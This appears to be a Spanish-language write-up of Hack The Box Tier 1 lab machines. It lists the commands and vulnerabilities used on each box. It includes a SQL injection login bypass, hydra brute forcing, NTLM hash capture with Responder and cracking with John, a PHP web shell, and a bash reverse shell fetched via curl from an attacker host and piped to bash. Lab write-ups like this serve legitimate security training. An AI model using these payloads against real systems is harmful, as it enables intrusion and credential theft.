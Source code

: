 # Máquina Tier 1

## Máquina 1 (Appointment)
Servicios usados:
- Apache (Puerto 80)

**Comandos útiles maquina 2**

> `sudo hydra -l <USER> -P /usr/share/wordlists/rockyou.txt <HOST> http-post-form  "/index.php:username=^USER^&password=^PASS^:<INVALID MSG>"`

> `admin'#`

**Detalles vulnerabilidad**
La máquina 1 era vulnerable a ataques de `SQL Injection`, por lo tanto se intento hacer uso de una cuenta de usuario común como `admin`, y a la vez evitar la validación de contraseña con el siguiente input: `admin'#`.


## Máquina 2 (Sequel)
Servicios usados:
- mysql 

**Comandos útiles maquina 2**
> `mysql -h <HOST> -u <USER> -p`

> `show databases;`

> `use <Database>;`

> `show tables;`

> `select * from <TABLE>;`

**Detalles vulnerabilidad**
El servicio de mysql estaba configurado con las credenciales por defecto, por lo tanto se pudo acceder con el usuario `root` y contraseña vacía. Dentro de la base de datos se pudo navegar libremente para la búsqueda de la bandera.


## Máquina 3 (Crocodile)
Servicios usados:
- Ftp
- Apache

**Comandos útiles máquina 3**

Aplica el uso de script por defecto

> `nmap -sCV <host>` 

Acceder al servicio ftp con cuenta anonymous

`ftp <HOST>`
`anonymous`

El parámetro `-x` permite buscar exclusivamente aquellos archivos que terminan con la extensión establecida

> `sudo gobuster dir -w <DIR_DE_WORDLIST> -u <HOST> -x php,html`


**Detalles vulnerabilidad**
La máquina contaba con dos servicios, uno ftp y el otro web. Primero se pudo acceder al servicio ftp con la credencial por defecto de `anonymous`. Con esto se pudo obtener credenciales de acceso de un usuario `admin` (usuario y contraseña).

Posteriormente el análisis en gobuster descubrió una ruta oculta de `login.php`. Con el usuario obtenido anteriormente y con la ruta oculta se logro acceder al dashboard de la plataforma.

## Máquina 4 (Responder)
Servicios usados:
- Apache httpd 2.4.52
- Microsoft HTTPAPI httpd 2.0

**Recursos útiles**
- Responder: https://github.com/lgandx/Responder
- Microsoft NTLM: https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm
- File inclusion window wordlist: https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt

**Comandos útiles máquina 4**

Guarda el escaneo en un archivo `last-nmap-scan`, evita que se haga un ping previo al escaneo y establece como mínimo el envió de paquete en 500, lo cual aumenta la velocidad de escaneo. 
> `sudo nmap -oN last-nmap-scan -Pn -p- --min-rate 5000 -sV -vvv 10.129.173.207` 

Verificar configuración del Responder
> `cat /etc/responder/Responder.conf`

Inicia el servicio en escucha del responder a través de la interfaz `tun0`
> `sudo responder -I tun0`

Crackear el hash
> `john -w=/usr/share/wordlists/rockyou.txt hash.txt`

Acceder remotamente
> `evil-winrm -i <HOST> -u <USER> -p <PASSWORD>`

**Detalles vulnerabilidad**
- Existe un servicio web el cual redirige a la pagina `unika.htb` por lo tanto es necesario cambiar el archivo `/etc/hosts` para poder resolver el nombre de dominio virtual.
- Manipulando la plataforma web se encuentra que es vulnerable a **File Inclusion** y que se encuentra usando windows como sistema operativo.
- Se usa Responder en modo escucha de peticiones SMB para obtener el HASH NTLM durante un proceso de autenticación entre equipos de windows
- Se Crackea el hash mediante fuerza bruta haciendo uso de *John the Ripper*
- A través de las credenciales obtenidas se accede mediante *evil-winrm* al equipo.

## Máquina 5 (Three)
Servicios usados:
- Apache httpd 2.4.29 en puerto 80
- OpenSSH 7.6 en puerto 22

**Comandos útiles máquina 4**

Enumerar rutas con wfuzz
> `sudo wfuzz -c -f sub-wfuzz --hc 404 -w /usr/share/wordlists/dirb/common.txt http://<DOMAIN>/FUZZ`

Enumerar subdominios
> `sudo gobuster vhost -w /usr/share/wordlists/subdomains.txt -u <DOMAIN>`

Haciendo uso de wfuzz
> `sudo wfuzz -c -f sub-wfuzz --sc 200,202,204,301,302,307,400,403,404 -Z -w /usr/share/wordlists/subdomains.txt http://FUZZ.<DOMAIN>`

Tambien se necesita agregar el subdominio en el archivo `hosts`
> `echo "10.129.227.248 <SUB>.<DOMAIN>.<TOP>" | sudo tee -a /etc/hosts`

Configurar awscli
> `aws configure`

Enumerar todos los Buscket de S3
> `aws --endpoint=http://s3.<DOMAIN> s3 ls `

Enumerar contenido del bucket en especifico 
> `aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb`

Crear archivo `shell.php` para ejecutar comandos 
> `echo '<?php system($_GET["cmd"]); ?>' > shell.php`

Subir `shell.php` al bucket `s3`
> `aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb`

Crear archivo `shell.sh` para ejecutar el `Reverse TCP Shell`
```
#!/bin/bash
bash -i >& /dev/tcp/<IP-ATACANTE>/4444 0>&1  
```
Hospedar archivo `shell.sh`
> `python -m http.server 8001`

Escuchar por conexiones
> `nc -nvlp 4444`

Navegador al siguiente url:
> `http://<DOMINIO/HOST>/<RUTA>/shell.php?cmd=curl <IP-ATACANTE>:8001/shell.sh|bash`

Enumerar objetos y prefijos comunes en el bucket especificado.
**Detalles vulnerabilidad**
- Existe un dominio de `thetoppers.htb`
- Enumerando los subdominios se encuentra `s3`, el cual pertenece a un bucket de Amazon S3
- Dado a las malas configuraciones se puede obtener y manipular datos del Bucket S3 con `awscli`
- Crear y Agregar archivo `shell.php` en el bucket
- Crear y hospedar el archivo `shell.sh` en la maquina atacante.
- Usar `netcat` para escuchar por conexiones externas.
- Mediante la ejecución de `shell.php` desde una url en el navegador, es posible obtener el archivo `shell.sh` y ejecutarlo de manera remota para crear una *reverse shell*.



